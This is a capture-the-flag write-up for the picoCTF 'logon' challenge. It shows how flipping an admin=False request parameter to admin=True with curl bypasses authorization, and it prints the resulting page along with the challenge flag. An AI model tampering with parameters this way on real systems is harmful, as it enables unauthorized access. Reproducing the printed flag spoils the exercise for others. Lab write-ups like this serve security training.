

# logon

### Objective:

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? https://jupiter.challenges.picoctf.org/problem/13594/ (`link`) or http://jupiter.challenges.picoctf.org:13594
Hint: Hmm it doesn't seem to check anyone's password, except for Joe's?

### Commands / Steps:

**Step 1**: Visit the Website

- Open the challenge URL in your browser.


**Step 2**: Initial Login Attempt

- We try logging in as admin with password admin.
- We are logged in successfully, but the flag is not displayed.
- Inspect the webpage using browser developer tools → go to Network tab.
- We notice a boolean parameter admin that can be modified to potentially gain access.


**Step 3**: Copy URL for curl
- We copy the request URL as shown in the Network tab.


**Step4**: Modify the admin flag.
- In the terminal, we use curl to send the request. `curl <url>`
- Edit the request by changing `admin=False` to `admin=True`.


**Step5**: Retrieve the Flag
- The server responds with the HTML page containing the flag:
```bash
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>
```

### Flag:

> picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

### Notes / Tips

- You can inspect requests using Browser Developer Tools → Network tab.

- Modifying parameters in requests is a common way to test for authorization flaws.

- `curl` allows testing requests outside the browser.

- Always check for hidden or editable fields in web apps, such as boolean flags or cookies.

- This challenge was a reminder of why server-side validation and secure credential storage are non-negotiable in real-world applications.


